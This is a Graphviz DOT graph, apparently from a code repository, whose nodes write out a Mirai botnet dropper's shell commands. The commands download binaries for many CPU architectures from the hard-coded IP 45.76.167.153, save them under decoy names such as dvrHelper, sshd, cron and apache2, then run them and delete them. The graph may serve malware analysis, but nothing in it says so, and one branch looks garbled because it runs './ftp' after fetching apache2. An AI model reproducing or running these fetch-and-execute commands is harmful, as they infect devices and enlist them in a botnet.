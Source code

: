 digraph {
288 [label="cd /tmp "];
288 -> 288
2 [label="wget http://45.76.167.153/mirai.arm -O dvrHelper "];
2 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
10 [label="wget http://45.76.167.153/mirai.arm7 -O dvrHelper "];
10 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
18 [label="wget http://45.76.167.153/mirai.m68k -O dvrHelper "];
18 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
26 [label="wget http://45.76.167.153/mirai.mips -O dvrHelper "];
26 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
34 [label="wget http://45.76.167.153/mirai.mpsl -O dvrHelper "];
34 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
42 [label="wget http://45.76.167.153/mirai.ppc -O dvrHelper "];
42 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
50 [label="wget http://45.76.167.153/mirai.sh4 -O dvrHelper "];
50 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
58 [label="wget http://45.76.167.153/mirai.spc -O dvrHelper "];
58 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
66 [label="wget http://45.76.167.153/mirai.x86 -O dvrHelper "];
66 -> 68 [label=";,"];
68 [label="chmod 777 dvrHelper "];
68 -> 70 [label=";,"];
70 [label="./dvrHelper "];
70 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 82 [label="||,"];
82 [label="wget http://45.76.167.153/ntpd "];
82 -> 84 [label=";,"];
84 [label="chmod +x ntpd "];
84 -> 86 [label=";,"];
86 [label="./ntpd "];
86 -> 88 [label=";,"];
88 [label="rm -rf ntpd "];
88 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 100 [label="||,"];
100 [label="wget http://45.76.167.153/sshd "];
100 -> 102 [label=";,"];
102 [label="chmod +x sshd "];
102 -> 104 [label=";,"];
104 [label="./sshd "];
104 -> 106 [label=";,"];
106 [label="rm -rf sshd "];
106 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 118 [label="||,"];
118 [label="wget http://45.76.167.153/sh "];
118 -> 120 [label=";,"];
120 [label="chmod +x sh "];
120 -> 122 [label=";,"];
122 [label="./sh "];
122 -> 124 [label=";,"];
124 [label="rm -rf sh "];
124 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 136 [label="||,"];
136 [label="wget http://45.76.167.153/bash "];
136 -> 138 [label=";,"];
138 [label="chmod +x bash "];
138 -> 140 [label=";,"];
140 [label="./bash "];
140 -> 142 [label=";,"];
142 [label="rm -rf bash "];
142 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 154 [label="||,"];
154 [label="wget http://45.76.167.153/openssh "];
154 -> 156 [label=";,"];
156 [label="chmod +x openssh "];
156 -> 158 [label=";,"];
158 [label="./openssh "];
158 -> 160 [label=";,"];
160 [label="rm -rf openssh "];
160 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 172 [label="||,"];
172 [label="wget http://45.76.167.153/wget "];
172 -> 174 [label=";,"];
174 [label="chmod +x wget "];
174 -> 176 [label=";,"];
176 [label="./wget "];
176 -> 178 [label=";,"];
178 [label="rm -rf wget "];
178 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 190 [label="||,"];
190 [label="wget http://45.76.167.153/tftp "];
190 -> 192 [label=";,"];
192 [label="chmod +x tftp "];
192 -> 194 [label=";,"];
194 [label="./tftp "];
194 -> 196 [label=";,"];
196 [label="rm -rf tftp "];
196 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 208 [label="||,"];
208 [label="wget http://45.76.167.153/cron "];
208 -> 210 [label=";,"];
210 [label="chmod +x cron "];
210 -> 212 [label=";,"];
212 [label="./cron "];
212 -> 214 [label=";,"];
214 [label="rm -rf cron "];
214 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 226 [label="||,"];
226 [label="wget http://45.76.167.153/pftp "];
226 -> 228 [label=";,"];
228 [label="chmod +x pftp "];
228 -> 230 [label=";,"];
230 [label="./pftp "];
230 -> 232 [label=";,"];
232 [label="rm -rf pftp "];
232 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 244 [label="||,"];
244 [label="wget http://45.76.167.153/ftp "];
244 -> 246 [label=";,"];
246 [label="chmod +x ftp "];
246 -> 284 [label=";,"];
284 [label="./ftp "];
284 -> 250 [label=";,"];
250 [label="rm -rf ftp "];
250 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 262 [label="||,"];
262 [label="wget http://45.76.167.153/telnetd "];
262 -> 264 [label=";,"];
264 [label="chmod +x telnetd "];
264 -> 266 [label=";,"];
266 [label="./telnetd "];
266 -> 268 [label=";,"];
268 [label="rm -rf telnetd "];
268 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 280 [label="||,"];
280 [label="wget http://45.76.167.153/apache2 "];
280 -> 282 [label=";,"];
282 [label="chmod +x apache2 "];
282 -> 284 [label=";,"];
284 [label="./ftp "];
284 -> 286 [label=";,"];
286 [label="rm -rf apache2 "];
286 -> 288 [label=";,"];
288 [label="cd /tmp "];
288 -> 288
290 [label="cd /var/run "];
290 -> 292 [label="||,"];
292 [label="cd /mnt "];
292 -> 294 [label="||,"];
294 [label="cd /root "];
294 -> 296 [label="||,"];
296 [label="cd / "];
296 -> 298 [label="||,"];
298 [label="wget http://45.76.167.153/watchdog "];
298 -> 300 [label=";,"];
300 [label="chmod +x watchdog "];
300 -> 302 [label=";,"];
302 [label="./watchdog "];
302 -> 303 [label=";,"];
}
